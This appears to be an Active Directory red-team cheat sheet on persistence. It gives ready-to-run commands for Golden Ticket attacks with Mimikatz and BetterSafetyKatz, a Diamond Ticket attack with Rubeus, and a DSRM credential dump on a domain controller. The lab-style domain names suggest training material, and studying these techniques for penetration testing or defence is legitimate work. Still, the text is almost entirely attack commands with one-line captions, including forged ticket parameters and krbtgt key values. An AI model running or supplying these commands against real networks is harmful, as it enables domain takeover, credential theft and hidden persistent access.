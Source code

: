 # Persistence

## Golden Ticket

Execute Golden Ticket Attack using Mimikatz.

```
mimikatz.exe
privilege::debug
kerberos::purge
kerberos::golden /user:domainadmin /domain:test.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
```

Execute Golden Ticket Attack using BetterSafetyKatz.exe.

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:domainadmin /domain:test.com /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

## Diamond Ticket

Execute Diamond Ticket Attack using Rubeus.

```
C:\AD\Tools\Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

## DSRM Credentials

Dump DSRM Credentials with using mimikatz.exe (Command must be run on the DC).

```
mimikatz.exe
token::elevate
lsadump::sam
```
